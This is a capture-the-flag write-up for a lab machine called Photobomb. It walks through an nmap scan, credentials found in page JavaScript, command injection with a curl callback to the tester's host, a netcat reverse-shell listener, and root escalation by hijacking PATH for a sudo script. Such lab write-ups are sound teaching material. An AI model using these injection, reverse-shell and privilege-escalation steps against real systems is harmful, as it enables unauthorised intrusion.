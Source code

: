 # Inital scan
I started by joining the machine and started nmap using ***-sC*** flag to run default scripts and ***-sV*** to retrieve the version number of the softwares running on the machine
```
karim@alpacino:~/Desktop/htb/photobomb$ nmap -sC -sV 10.10.11.182
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-07 06:47 EET
Nmap scan report for 10.10.11.182
Host is up (0.063s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp    open     http          nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
```
I found 2 ports running which are **22** wich is running **SSH** and port **80** which is running http and its redirecting me to http://photobomb.htb/ so added photobomb.htb to my **/etc/hosts/** file and visited the website and I found a static page with a link to another website
![image](photobomb/img/1.png)
there was a link redirects me to printer directory but it requires a username and a password 
![image](photobomb/img/2.png)
and if I type something like admin:admin I get a **401 # Authorization Required** error so returned back and viewed the source code and found some credentials photobomb.js file
![image](photobomb/img/3.png)
![image](photobomb/img/4.png)
The credentials are ***pH0t0:b0Mb!*** and if you just visit the link you will be able to access the printer dircetory which is basically a photo gallery
![image](photobomb/img/5.png)
There is a feature for downloading the photos from the website so I tried to download an image and I captured the request using burp suite
![image](photobomb/img/6.png)
# Initial access
Firstly I fired an http server using python
```
karim@alpacino:~/Desktop/htb/photobomb$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
so I tried command injection in all parameters using the following command and it worked in the filetype parameter
```
curl $YOUR_IP
```
and I got a request in my python http server
```
karim@alpacino:~/Desktop/htb/photobomb$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.182 - - [07/Feb/2023 07:13:34] "GET / HTTP/1.1" 200 -
10.10.11.182 - - [07/Feb/2023 07:14:05] "GET / HTTP/1.1" 200 -
```
So I tried getting a reverse shell using python and I am using the [pentest monkey cheatsheet](https://pentestmonkey.net/cheat-sheet) and before that I sat up a netcat listner
```
karim@alpacino:~/Desktop/htb/photobomb$ nc -lnvp 9999
Listening on 0.0.0.0 9999
```
and I injected the python reverse shell in the filetype parameter
![image](photobomb/img/7.png)
and I got a reverse shell with **wizard** user 
![image](photobomb/img/8.png)
So I went to my home directory and found user.txt file and I was able to read it.
# Privilage Escalation
I tried to run sudo -l to find the command that I am able to run using sudo without using password
```
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
So you can see that I can run cleanup.sh file using sudo without requiring a password
So I used cat command to show the contents of the file
```
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
you can see that the file is using find and cd command without specifying the full path so we can exploit it by changing the path variable and you can read [this article](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) to be familier with this method
first we will make two file which are find and cd with the contents /bin/bash and give it the right permissions and run cleanup.sh file using sudo with the path changed to tmp and that't where we put our find and cd files and we got root
```
wizard@photobomb:/tmp$ echo "/bin/bash" > find
wizard@photobomb:/tmp$ echo "/bin/bash" > cd 
wizard@photobomb:/tmp$ chmod +x cd
wizard@photobomb:/tmp$ chmod +x find
wizard@photobomb:/tmp$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
```
